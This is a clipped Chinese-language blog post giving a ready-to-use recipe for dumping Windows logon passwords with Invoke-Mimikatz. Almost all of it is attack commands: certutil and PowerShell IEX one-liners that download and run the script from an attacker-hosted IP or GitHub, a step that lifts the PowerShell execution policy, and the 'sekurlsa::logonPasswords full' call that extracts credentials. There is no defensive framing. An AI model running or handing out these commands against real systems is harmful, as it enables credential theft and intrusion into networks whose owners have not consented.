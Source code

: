 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/nzjdsds/article/details/102793697)

参照：[https://blog.51cto.com/simeon/2126106](https://blog.51cto.com/simeon/2126106)

进行实现

Invoke-Mimikatz.ps1 下载地址

```
#使用certutil下载
certutil.exe -urlcache -split -f "http://10.26.32.106:8000/Invoke-Mimikatz.ps1"  
#执行Mimikatz
powershell Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'
```

（1）目标主机具备网络环境

```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```

![](https://img-blog.csdnimg.cn/20191029100002878.png)

（2）目标主机不具备网络环境

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.26.32.106:8000/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

![](https://img-blog.csdnimg.cn/20191029100024750.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L256amRzZHM=,size_16,color_FFFFFF,t_70)

（3）把文件下载到目标主机进行执行

```
#使用certutil下载
certutil.exe -urlcache -split -f "http://10.26.32.106:8000/Invoke-Mimikatz.ps1"  
#执行Mimikatz
powershell Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'
```

![](https://img-blog.csdnimg.cn/20191029100047452.png)

有授权限制的：

```
Get-ExecutionPolicy  //结果显示restricted
```

![](https://img-blog.csdnimg.cn/20191029100058783.png)

```
Set-ExecutionPolicy Unrestricted  //打开限制
```

![](https://img-blog.csdnimg.cn/20191029100109119.png)

```
Import-Module .\Invoke-Mimikatz.ps1 //导入命令
```

![](https://img-blog.csdnimg.cn/20191029100116897.png)

```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"' //获取密码
```

![](https://img-blog.csdnimg.cn/2019102910014051.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L256amRzZHM=,size_16,color_FFFFFF,t_70)